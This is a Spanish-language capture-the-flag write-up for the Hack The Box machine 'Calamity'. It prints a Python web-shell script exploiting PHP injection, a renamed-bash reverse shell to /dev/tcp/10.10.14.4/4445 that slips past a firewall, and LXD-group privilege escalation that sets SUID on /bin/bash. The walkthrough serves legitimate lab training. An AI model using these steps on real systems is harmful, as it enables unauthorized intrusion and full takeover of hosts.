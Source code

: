 ```yaml
---
title : Máquina|Calamity|HTB|RCE|LXD
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/Calamity/Calamity0.png" style="border-radius: 150px; width: 169px" alt="Calamity log">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Difícil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/Calamity" style="color: lightblue;">Calamity</a></p>
    </div>
</div>


 <h2><font color="white"><center> # Calamity</center></font></h2>
* Empezamos con la enumeración de puertos.
> sudo nmap --min-rate 5000 -sS -Pn --open -p- 10.10.10.27

<img src="imgs/Calamity/Calamity1.png">

<br>
* Posteriormente vemos la version y servicio que corren en estos puertos.
>nmap -sCV -p22,80 10.10.10.27

<img src="imgs/Calamity/Calamity2.png">

<br>
* Empezamos la identificación de tecnologías plugins y versiones para esta pagina web.

<img src="imgs/Calamity/Calamity3.png">

<br>
* Probamos credenciales por defecto por ssh ya que es el puerto con un poco mas de relevancia, pero no obtenemos nada relevante.
>ssh anonymous@10.10.10.27

<img src="imgs/Calamity/Calamity4.png">

<br>
* Lanzamos un script de nmap para el reconocimiento de posibles rutas en la pagina web.
> nmap --script http-enum -p80 10.10.10.27

<img src="imgs/Calamity/Calamity5.png">

<br>

* Observando las rutas, veo que hay credenciales en la pagina web.

<img src="imgs/Calamity/Calamity6.png">

* Cuando inicio sesion tenemos un campo el cual es injectable a código php, y obtenemos un RCE.

<img src="imgs/Calamity/Calamity7.png">

<br>
* Cuando intento crearme una reverse Shell no me llega la conexión, lo que me hace pensar que tiene reglas de firewall instaladas para matar la conexión cuando se detecte, por lo que empezamos a montar un script en python simulando una Shell.

```python
#!/usr/bin/python

import requests

while True:

	command = input("~$ ")
	url = f'http://10.10.10.27/admin.php/?0={command}&html=%3C?=`$_GET[0]`;?%3E' 

	cookies = {
	    'adminpowa': 'noonecares'
	}

	response = requests.get(url, cookies=cookies)

	print(response.text)

```
<br>
* web-shell.py

<img src="imgs/Calamity/Calamity8.png">

* Si el cortafuegos me mata la conexión cuando detecta el uso de bash, porque no cambiar el nombre de bash?

<img src="imgs/Calamity/Calamity9.png">
<img src="imgs/Calamity/Calamity10.png">

* Renombrando la bash intentemos ahora entablar la conexión, pero para que no de problemas en cabeza a el urlencode codificamos primero la petición en ese formato que poseerá la Reverse Shell.
>/tmp/bypass -c '/tmp/bypass -i >& /dev/tcp/10.10.14.4/4445 0>&1'

<img src="imgs/Calamity/Calamity11.png">

<br>
* Posteriormente mandamos la petición y nos ponemos en escucha
>sudo nc -nlvp 4445

<img src="imgs/Calamity/Calamity12.png">

* Empezamos con un corto tratamiento a la consola para hacerla un poco mas interactiva.
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
```

<img src="imgs/Calamity/Calamity13.png">

<br>
* Exportamos configuraciones para hacerla aun mas interactiva.
```bash
export TERM=xterm
export SHELL=bash
```

<img src="imgs/Calamity/Calamity14.png">

* Observamos que hay un usuario en /home y conseguimos la primera Flag.

<img src="imgs/Calamity/Calamity16.png">

* Vemos que efectivamente había un firewall que nos mataba las conexiones.

<img src="imgs/Calamity/Calamity17.png">

* Vemos dos archivo con la misma extension.

<img src="imgs/Calamity/Calamity18.png">

<br>
* Nos transferimos esos archivos para examinarlos mas a fondo.

<img src="imgs/Calamity/Calamity19.png">

* Tienen el mismo sonido pero no el mismo identificador.

<img src="imgs/Calamity/Calamity20.png">

* Instalamos audacity.
> sudo apt-get install aducity

<br>
* Importamos los audios y le damos en la parte de invertir.

<img src="imgs/Calamity/Calamity21.png">

<br>
* Posteriormente podemos escuchar que nos dice una credencial al inicio y una parte al final, como el audio esta inverso la parte final es la inicial y la parte inicial es la parte final.
> Credencial escuchada : 18547936..*

<br>
* Mirando mas a detalle identifique que la credencial era del usuario xalvas.

<img src="imgs/Calamity/Calamity22.png">

<br>

* Al ver los grupos vemos que estamos enlazados a (LXD) lo que hace vulnerable al equipo a un ataque (LXD) para el despliegue de contenedores.
<a href="https://otterhacker.github.io/Pentest/Techniques/Privileges%20escalation/Linux.html">Mas información CVE-2019-14287.</a>

<img src="imgs/Calamity/Calamity23.png">

<br>
* Posteriormente vemos que hay un exploit creado por s4vitar que simplemente lo que hace es automatizar el levantamiento del contenedor.

<img src="imgs/Calamity/Calamity24.png">

<br>
* Nos dice que tenemo que descarga el archivo alpine-builder.

<img src="imgs/Calamity/Calamity25.png">

<br>
* Una vez descargado lo que hacemos sera darle soporte a las dependencias, ya que de por si si lo ejecuta sin actualizar la dependencia le dara errores.
>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

<img src="imgs/Calamity/Calamity26.png">

* Convertimos a formato Unix el script.
>dos2unix 46978.sh

<img src="imgs/Calamity/Calamity27.png">

* Vemos que la maquina es de 32 bits sabemos esto por el i686, esto es importante en base a la creación del docker.
>uname -a

<img src="imgs/Calamity/Calamity28.png">

* Posteriormente damos permisos de ejecución y preparamos el build en formato de 32 bits.

<img src="imgs/Calamity/Calamity29.png">

* Nos montamos un servidor http para poder compartir los archivos y los descargamos en la maquina de htb, cabe aclarar que la única ruta donde tenemos permisos de escritura es en /dev/shm.

<img src="imgs/Calamity/Calamity30.png">

<br>
* Procedemos con la ejecución del docker.

<img src="imgs/Calamity/Calamity31.png">

* El error que aparece es porque se esta invocando el docker dos veces para solucionar ese error simplemente comentamos la siguiente linea de código.

<img src="imgs/Calamity/Calamity32.png">

<br>

* Procedemos a subir el archivo con las modificaciones realizadas.

<img src="imgs/Calamity/Calamity33.png">

* Cuando volvamos a ejecutar el script nos dará root

<img src="imgs/Calamity/Calamity34.png">

<br>

* Lo que hace es montar toda la partición de la raíz en un contenedor el cual esta montado en /mnt/root/ Cualquier cosa que modifique en esa montura la modificara en la maquina real, entonces para ganar root completamente agregamos permisos SUID al binario /bin/bash.

<img src="imgs/Calamity/Calamity35.png">

<br>

* Ya podríamos ver la flag de root.

<img src="imgs/Calamity/Calamity36.png">
